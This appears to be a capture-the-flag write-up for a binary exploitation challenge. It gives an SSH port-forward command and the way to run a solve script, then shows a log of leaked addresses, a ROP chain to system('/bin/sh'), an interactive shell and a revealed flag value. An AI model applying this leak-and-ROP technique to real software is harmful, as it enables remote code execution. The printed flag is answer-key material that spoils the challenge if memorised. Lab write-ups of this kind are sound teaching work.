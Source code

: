 Port forward challenges from bastion to localhost:
    `ssh <user>@ctf.neg9.net -L 7000:challenges.openctf.cat:9018`

Run exploit with remote option (any arbitrarty argv[1]):
    `./solve.py 1`

Example run:
```
python solve.py 1234
[+] Opening connection to 127.0.0.1 on port 7000: Done
[*] leak 0x5595d5858e10
[*] stderr_leak 0x7f492f003680
[*] libc 0x7f492ec17000
[*] environ 0x7ffef044e2a8
[*] rop_loc 0x7ffef044e090
[*] Loading gadgets for '/home/pwntools/src/libc.so'
[*] mov_rsp 0x7f492ec57568
[*] Switching to interactive mode
 (y/n): 
/bin/sh: 0: can't access tty; job control turned off
$ $ cat flag
flag{fbc9762c3efa4fa4bb00076890c4d81299ccf8cd}
```

As you can see, pwntools takes care of the heavy lifting of this challenge. A rop chain to system("/bin/sh") from libc.so

Leak address occurs in "4. Show book".

List books also seems to do something interesting even with valid input:

```
0 - Title: 121, Pages: [121]
1 - Title: �ξE, Pages: [0, 2]
```
